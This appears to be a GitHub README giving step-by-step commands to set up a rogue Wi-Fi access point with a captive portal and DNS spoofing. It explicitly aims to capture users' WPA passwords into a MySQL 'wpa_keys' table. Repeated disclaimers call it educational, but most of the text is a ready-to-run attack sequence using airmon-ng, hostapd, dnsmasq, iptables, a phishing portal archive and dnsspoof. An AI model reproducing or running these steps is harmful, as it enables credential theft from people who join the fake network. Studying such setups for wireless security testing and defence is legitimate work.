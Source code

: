 # rogue-Wi-Fi-access-point-AP-with-a-captive-portal

The provided script is a set of instructions to set up a rogue Wi-Fi access point (AP) with a captive portal, allowing the attacker to capture sensitive information from unsuspecting users who connect to the rogue AP. It also involves internet access sharing and setting up a MySQL database to store captured information.

Please note that such activities are unethical and illegal without explicit consent from the network owner. Engaging in unauthorized network access or any form of cyber-attacks is a violation of the law and can lead to severe consequences.

I will describe the steps mentioned in the script, but again, I must emphasize that this information should only be used for educational and ethical purposes.

Preparing:
This section lists the necessary packages to install and some initial setup steps. The 'apt-get update' command updates the package index, 'apt-get install' installs necessary software packages including hostapd, dnsmasq, and apache2. airmon-ng puts the wireless interface (wlan0) into monitor mode.

Configuring hostapd:
The script asks you to create a configuration file named hostapd.conf using the nano text editor. In this file, you define the SSID (WiFi name), channel, and other settings for the rogue AP.

Configuring dnsmasq:
A configuration file named dnsmasq.conf is created to configure the DHCP and DNS settings for the rogue AP.

Routing table and gateway:
Sets up the network interface wlan0mon with a static IP address of 192.168.1.1 and adds a route to the local network.

Internet access sharing:
This section uses iptables to enable internet access sharing for the connected clients via the eth0 interface.

MySQL database setup:
Starts the MySQL service and then uses the mysql command-line tool to create a database named 'fap' and a user named 'fapuser' with specific privileges on the 'fap' database.

Captive portal setup:
Clears the contents of the /var/www/html/ directory, moves the fap.zip file to that directory, and unzips its contents. This sets up a simple web server that can host the captive portal.

Starting the attack:
This section starts the rogue AP using hostapd and configures DNS spoofing using dnsspoof. DNS spoofing is used to redirect DNS requests made by clients to the attacker's IP address (in this case, wlan0mon).

Again, I must emphasize that attempting to execute this script without proper authorization is illegal and unethical. Unauthorized access to networks, data interception, and any form of cyber-attack are serious offenses. Always act responsibly and respect the laws and privacy of others.


## Liability Disclaimer:

The information provided in the script earlier is intended solely for educational and informational purposes. It should not be used for any malicious or unauthorized activities. Engaging in unauthorized network access, cyber-attacks, or any illegal activities is strictly prohibited and can result in severe legal consequences.

The instructions mentioned in the script are designed for understanding various network and security concepts. They should only be used in controlled, legal, and authorized environments with explicit consent from the network owner or administrator.

The misuse of the knowledge presented in this script to create rogue Wi-Fi access points or engage in any form of cyber-attacks is unethical and against the principles of responsible and respectful use of technology.

If you are uncertain about the legality or ethical implications of any action related to networking, security, or any other technology-related matters, seek advice from qualified professionals or authorized personnel.

By accessing and using this information, you agree to act responsibly and lawfully, and you acknowledge that any misuse of this knowledge is solely your responsibility.

Remember, technology can be used to benefit society and improve lives, so let us strive to use our knowledge for positive and ethical purposes.

To the maximum extent permitted by applicable law, I and/or affiliates from whom this repo is sourced and or submitted content to this repo, shall not be liable for any indirect, incidental, special, consequential, or punitive damages, or any loss of profits or revenue, whether incurred directly or indirectly, or any loss of data, use, goodwill, or other intangible losses, resulting from:

👉 (i) your access to this resource and/or inability to access this resource; 
👉 (ii) any conduct or content of any third party referenced by this resource, including, any offensive or illegal conduct or other users or third parties; 
👉 (iii) any content obtained from this resource or any of its resources




FOLLOW THIS Commands
 # --- Preparing ---:

	apt-get update

	apt-get install hostapd dnsmasq apache2 

	airmon-ng start wlan0

	mkdir ~/fap

	cd ~/fap

	nano hostapd.conf 

 # Instructions for hostapd.conf: 

interface=[INTERFACE NAME]
driver=nl80211
ssid=[WiFi NAME]
hw_mode=g
channel=8
macaddr_acl=0
ignore_broadcast_ssid=0

	nano dnsmasq.conf

 # Instructions for dnsmasq.conf: 

interface=[INTERFACE NAME]
dhcp-range=192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server=8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1

 # Routing table and gateway:

	ifconfig wlan0mon up 192.168.1.1 netmask 255.255.255.0
	route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1

 # Internet access:

	iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
	iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
	echo 1 > /proc/sys/net/ipv4/ip_forward

 # mysql database:
	
	service mysql start
	
	mysql
	
	create database fap;

	create user fapuser;

	grant all on rogueap.* to 'fapuser'@'localhost' identified by 'fappassword';

	use fap;

	create table wpa_keys(password1 varchar(40), password2 varchar(40));
	
	ALTER DATABASE fap CHARACTER SET 'utf8';

	select * from wpa_keys;
	
# Captive portal setup:
	
	rm -rf /var/www/html/*
	
	mv ~/Downloads/fap.zip /var/www/html
	
	cd /var/www/html
	
	unzip fap.zip 
	
	service apache2 start
	

 # --- Starting the attack ---: 

	hostapd hostapd.conf

	dnsmasq -C dnsmasq.conf -d

	dnsspoof -i wlan0mon
